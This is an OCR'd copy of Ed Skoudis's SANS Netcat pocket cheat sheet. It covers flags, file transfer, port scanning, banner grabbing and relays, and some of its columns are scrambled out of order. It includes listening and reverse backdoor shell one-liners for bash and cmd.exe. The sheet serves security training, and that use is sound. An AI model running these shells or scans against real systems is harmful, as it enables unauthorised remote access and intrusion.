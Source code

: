 To start, enter a temporary directory where we will
create .bat files:
C:\> cd c:\temp
Listener-to-Client Relay:
C:\> echo nc [TargetIPaddr] [port] >
relay.bat
C:\> nc –l –p [LocalPort] –e relay.bat
Create a relay that sends packets from the local port
[LocalPort] to a Netcat Client connected to
[TargetIPaddr] on port [port]
Listener-to-Listener Relay:
C:\> echo nc –l –p [LocalPort_2] >
relay.bat
C:\> nc –l –p [LocalPort_1] –e
relay.bat
Create a relay that will send packets from any
connection on [LocalPort_1] to any connection
on [LocalPort_2]
Client-to-Client Relay:
C:\> echo nc [NextHopIPaddr] [port2] >
relay.bat
C:\> nc [PreviousHopIPaddr] [port] –e
relay.bat
Create a relay that will send packets from the
connection to [PreviousHopIPaddr] on port
[port] to a Netcat Client connected to
[NextHopIPaddr] on port [port2]
Netcat Command Flags
Netcat
Cheat Sheet
$ nc [options] [TargetIPaddr] [port(s)]
The [TargetIPaddr] is simply the other side’s IP
address or domain name. It is required in client mode
of course (because we have to tell the client where to
connect), and is optional in listen mode.
-l: Listen mode (default is client mode)
-L: Listen harder (supported only on Windows
version of Netcat). This option makes Netcat a
persistent listener which starts listening again
after a client disconnects
-u: UDP mode (default is TCP)
-p: Local port (In listen mode, this is port listened
on. In client mode, this is source port for all
packets sent)
-e: Program to execute after connection occurs,
connecting STDIN and STDOUT to the
program
-n: Don’t perform DNS lookups on names of
machines on the other side
-z: Zero-I/O mode (Don’t send any data, just emit
a packet without payload)
-wN: Timeout for connects, waits for N seconds
after closure of STDIN. A Netcat client or
listener with this option will wait for N seconds
to make a connection. If the connection
doesn’t happen in that time, Netcat stops
running.
-v: Be verbose, printing out messages on
Standard Error, such as when a connection
occurs
-vv: Be very verbose, printing even more details
on Standard Error
By Ed Skoudis
POCKET REFERENCE GUIDE
http://www.sans.org


File Transfer
Push a file from client to listener:
$ nc –l -p [LocalPort] > [outfile]
Listen on [LocalPort], store results in [outfile]
$ nc –w3 [TargetIPaddr] [port] <
[infile]
Push [infile] to [TargetIPaddr] on [port]
Pull file from listener back to client:
$ nc –l -p [LocalPort] < [infile]
Listen on [LocalPort], prep to push [infile]
$ nc –w3 [TargetIPaddr] [port] >
[outfile]
Connect to [TargetIPaddr] on [port] and
retrieve [outfile]
TCP Port Scanner
Port scan an IP Address:
$ nc –v –n –z –w1 [TargetIPaddr]
[start_port]-[end_port]
Attempt to connect to each port in a range from
[end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v on Linux, -
vv on Windows), not resolving names (-n), without
sending any data (-z), and waiting no more than 1
second for a connection to occur (-w1)
The randomize ports (-r) switch can be used to
choose port numbers randomly in the range
TCP Banner Grabber
Grab the banner of any TCP service running on an IP
Address from Linux:
$ echo "" | nc –v –n –w1 [TargetIPaddr]
[start_port]-[end_port]
Attempt to connect to each port in a range from
[end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not
resolving names (-n), and waiting no more than 1
second for a connection to occur (-w1). Then send a
blank string to the open port and print out any
banner received in response
Add –r to randomize destination ports within the
range
Add –p [port] to specify a source port for the
scan
Backdoor Shells
Listening backdoor shell on Linux:
$ nc –l –p [LocalPort] –e /bin/bash
Listening backdoor shell on Windows:
C:\> nc –l –p [LocalPort] –e cmd.exe
Netcat Relays on Linux
To start, create a FIFO (named pipe) called
backpipe:
$ cd /tmp
$ mknod backpipe p
Listener-to-Client Relay:
$ nc –l –p [LocalPort] 0<backpipe | nc
[TargetIPaddr] [port] | tee backpipe
Create a relay that sends packets from the local port
[LocalPort] to a Netcat client connected to
[TargetIPaddr] on port [port]
Listener-to-Listener Relay:
$ nc –l –p [LocalPort_1] 0<backpipe |
nc –l –p [LocalPort_2] | tee backpipe
Create a relay that sends packets from any
connection on [LocalPort_1] to any connection
on [LocalPort_2]
Create a shell on local port [LocalPort] that can
then be accessed using a fundamental Netcat client Client-to-Client Relay:
$ nc [PreviousHopIPaddr] [port]
0<backpipe | nc [NextHopIPaddr]
[port2] | tee backpipe
Reverse backdoor shell on Linux:
$ nc [YourIPaddr] [port] –e /bin/bash
Reverse backdoor shell on Windows:
C:\> nc [YourIPaddr] [port] –e cmd.exe Create a relay that sends packets from the
connection to [PreviousHopIPaddr] on port
[port] to a Netcat client connected to
[NextHopIPaddr] on port [port2]
Create a reverse shell that will attempt to connect to
[YourIPaddr] on local port [port]. This shell
can then be captured using a fundamental nc listener
Purpose
This cheat sheet provides various tips for
using Netcat on both Linux and Unix,
specifically tailored to the SANS 504, 517,
and 560 courses. All syntax is designed for
the original Netcat versions, released by
Hobbit and Weld Pond. The syntax here
can be adapted for other Netcats, including
ncat, gnu Netcat, and others.
Fundamentals
Fundamental Netcat Client:
$ nc [TargetIPaddr] [port]
Connect to an arbitrary port [port] at IP Address
[TargetIPaddr]
Fundamental Netcat Listener:
$ nc –l -p [LocalPort]
Create a Netcat listener on arbitrary local port
[LocalPort]
Both the client and listener take input from STDIN
and send data received from the network to STDOUT
